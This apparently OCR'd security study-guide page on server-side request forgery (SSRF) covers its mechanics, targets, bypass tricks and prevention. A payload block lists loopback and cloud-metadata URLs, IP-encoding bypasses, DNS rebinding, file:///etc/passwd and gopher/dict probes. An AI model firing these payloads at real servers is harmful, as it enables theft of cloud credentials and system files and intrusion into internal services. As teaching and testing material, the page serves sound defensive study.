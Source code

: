 1. **SSRF Mechanics**:
   - Technique: Manipulating server-side requests to access internal resources
   - Impact: Internal reconnaissance, data access, service exploitation
   - Testing: Modifying URLs in server-side request parameters
   - Prevention: URL validation, network segmentation, allow lists

2. **SSRF Targets**:
   - Internal web services
   - Cloud metadata services
   - Administrative interfaces
   - Database servers
   - Internal APIs

3. **SSRF Bypass Techniques**:
   - URL encoding
   - Alternative IP representations
   - DNS rebinding
   - Non-HTTP protocols
   - Redirects

```bash
# Example: SSRF testing payloads

# Step 1: Basic SSRF tests
# Try these in URL parameters, API endpoints, etc.
http://localhost/admin
http://127.0.0.1/admin
http://127.0.0.1:8080/admin
http://internal-service/api/data

# Step 2: Cloud metadata service access
# AWS
http://169.254.169.254/latest/meta-data/
# Azure
http://169.254.169.254/metadata/instance
# Google Cloud
http://metadata.google.internal/computeMetadata/v1/

# Step 3: Alternative IP representations
# Decimal notation
http://2130706433/admin
# Hexadecimal notation
http://0x7f000001/admin
# Octal notation
http://0177.0000.0000.0001/admin
# IPv6 representation
http://[::1]/admin

# Step 4: DNS rebinding attack setup
# Register a domain that resolves to 127.0.0.1 after initial resolution
# Use a service like http://rebind.it

# Step 5: URL scheme tests
file:///etc/passwd
dict://localhost:11211/stats
gopher://localhost:25/xSMTP

# Step 6: Bypass filters with redirects
# Set up a redirect from:
https://example.com/redirect
# To:
http://localhost/admin
```

